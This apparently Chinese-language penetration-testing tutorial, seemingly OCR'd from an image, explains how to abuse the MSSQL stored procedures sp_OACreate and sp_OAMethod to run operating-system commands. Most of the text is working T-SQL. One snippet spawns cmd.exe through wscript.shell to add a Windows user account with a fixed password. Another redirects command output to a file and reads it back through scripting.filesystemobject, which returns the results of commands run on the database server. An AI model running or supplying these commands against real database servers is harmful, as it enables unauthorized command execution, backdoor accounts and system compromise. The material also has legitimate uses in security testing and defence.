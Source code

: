 ```
declare @shell int
exec sp_oacreate 'wscript.shell', @shell output
exec sp_oamethod @shell, 'run' , null, 'c:\windows\system32\cmd.exe \c "net user c1y2m3 pinohd123. /add" '
```

其中sp_OACreate 创建 OLE 对象 wscript.shell,这个对象也可以是其他ole对象,而 sp_OAMethod 调用 OLE 对象的方法, 如果未使用特定参数，则需要将NULL值作为占位符传递。

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2d4790144e463b1c731f)

通过调用`sp_oacreate`能够获得一个数字返回值0（成功）或非零数字（失败），它是OLE自动化对象返回值。

同时这种方式是无法回显的,当然,我们也可以使用DNS、HTTP等传输协议进行获取对应命令输出，但这并不是这此次的目的，既然能通过利用sp_OACreate系统存储过程来操作COM对象，以下我列举了OLE实例常用的对象：

```
1、Scripting.FileSystemObject—>提供一整套文件系统操作函数

2、Scripting.Dictionary—>用来返回存放键值对的字典对象

3、Wscript.Shell—>提供一套读取系统信息的函数，如读写注册表、查找指定文件的路径、读取DOS环境变量，读取链接中的设置

4、Wscript.NetWork—>提供网络连接和远程打印机管理的函数。（其中，所有Scripting对象都存放在SCRRUN.DLL文件中，所有的Wscript对象都存放在WSHOM.ocx文件中。）
```

经过探索,下面分享三种方法笔者实现执行命令并获取回显的方法。

## 一、scripting.filesystemobject

1、首先将结果重定向输出到文件

```
declare @shell int 
exec sp_oacreate 'wscript.shell',@shell output 
exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c ipconfig > C:\xampp\whoami.txt'
```

2、创建一个scripting.filesystemobject对象实例，获取对象中opentextfile方法

![img](https://www.yunzhijia.com/microblog/filesvr/5dab2d79b54c8d6b11b3b9e2)

语法：

```
OpenTextFile(BSTR FileName, IOMode IOMode, VARIANT_BOOL Create, Tristate Format);
```

3、使用sp_oamethod 调用实例方法并循环输出命令执行结果：

```
declare @c int, @y int, @ret int
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @c out 
exec sp_oamethod @c, 'opentextfile', @y out, 'C:\xampp\whoami.txt', 1 
exec @ret = sp_oamethod @y, 'readline', @line out
while( @ret = 0 )
begin
print @line
exec @ret = sp_oamethod @y, 'readline', @line out
END
```
